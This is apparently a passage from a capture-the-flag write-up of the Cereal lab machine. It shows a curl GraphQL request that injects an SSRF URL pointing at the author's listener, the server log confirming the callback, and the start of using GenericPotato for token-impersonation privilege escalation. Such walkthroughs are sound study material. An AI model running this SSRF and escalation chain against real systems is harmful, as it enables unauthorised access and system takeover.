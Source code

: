     oxdf@parrot$ curl -d '{ "query": "mutation{updatePlant(plantId:1, version: 223.0, sourceURL: \"http://10.10.14.15/ssrf-test\")}" }' -X POST http://127.0.0.1:8888/api/graphql -H 'Content-Type: application/json' -s | jq -c .
    {"data":{"updatePlant":false}}



At my Python webserver, there's a request:



    10.10.10.217 - - [25/May/2021 17:42:08] code 404, message File not found
    10.10.10.217 - - [25/May/2021 17:42:08] "GET /ssrf-test HTTP/1.1" 404 -



It seems like the update failed because the server returned 404, which
makes sense.

### GenericPotato

#### Background

[GenericPotato](https://github.com/micahvandeusen/GenericPotato)
describes itself as:

> A modified version of SweetPotato by @*EthicalChaos* to support
> impersonating authentication over HTTP and/or named pipes. This allows
> for local privilege escalation from SSRF and/or file writes.

That is exactly what I need here. I can use it to create an HTTP
listener on Cereal, and then have the SSRF connect to that HTTP service.
GenericPotato will steal the token and run a command for me as the user
running the web server, probably system. [The blog
post](https://micahvandeusen.com/the-power-of-seimpersonation/) that
accompanies the repo is really well written and goes into some good
detail. I highly recommend giving it a read.

#### Build

I'll open a Windows VM and download the GenericPotato zip from Github.
After unzipping, I'll double-click the `.sln` file:

![](/img/image-20210525175219888.png)
